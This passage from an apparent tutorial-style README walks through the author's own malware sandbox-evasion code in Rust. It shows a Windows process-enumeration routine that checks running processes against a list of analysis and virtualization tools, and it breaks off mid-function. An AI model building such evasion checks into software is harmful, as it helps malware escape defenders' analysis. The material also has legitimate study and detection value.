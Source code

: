                       if x == cursor.x && y == cursor.y {
                          return false;
                      }
                  }

                  true
              }

            ```

    ***3. Running Processes and Services:***

        * Usually, a sandbox has multiple antivirus programs, debuggers, monitoring programs running as active processes. Our malware can check for the availability of some of these to determine if it's being ran in a sandbox
        
        * In my code, I looked up how to [numerate all running processes from MSDN](https://docs.microsoft.com/en-us/windows/win32/psapi/enumerating-all-processes) and translate their C++ code into Rust.
        
        * Then I extract their names and compare it with a list of executable names that usually exists in sandbox environment.
  
    ``` Rust
            
   pub fn check_process() -> bool {
       let mut a_processes: Vec<u32> = Vec::with_capacity(1024);
       let mut i = 0;
       while i < 1024 {
           a_processes.push(0u32);
           i += 1;
       }
       let mut cb_needed: u32 = 0u32;
       let mut _c_processes: u32 = 0u32;
       if unsafe { EnumProcesses(a_processes.as_ptr() as *mut u32, 1024 * 4, &mut cb_needed) } == 0 {
           return false;
       }

        // Calculate how many process identifiers were returned.
       _c_processes = cb_needed / 4;
       let mut current_processes: Vec<String> = Vec::new();
       let mut count = 0;
       while count < _c_processes {
           if a_processes[count as usize] != 0 {
               let process_name = print_process_name_and_id(a_processes[count as usize]);
               if process_name.len() != 0 {
                   current_processes.push(process_name);
               }
           }
           count += 1;
       }

       let sandbox_processes = [
           "vmsrvc.exe",
           "tcpview.exe",
           "wireshark.exe",
           "fiddler.exe",
           "vmware.exe",
           "VirtualBox.exe",
           "procexp.exe",
           "autoit.exe",
           "vboxtray.exe",
           "vmtoolsd.exe",
           "vmrawdsk.sys.",
           "vmusbmouse.sys.",
           "df5serv.exe",
           "vboxservice.exe",
       ]
       .to_vec();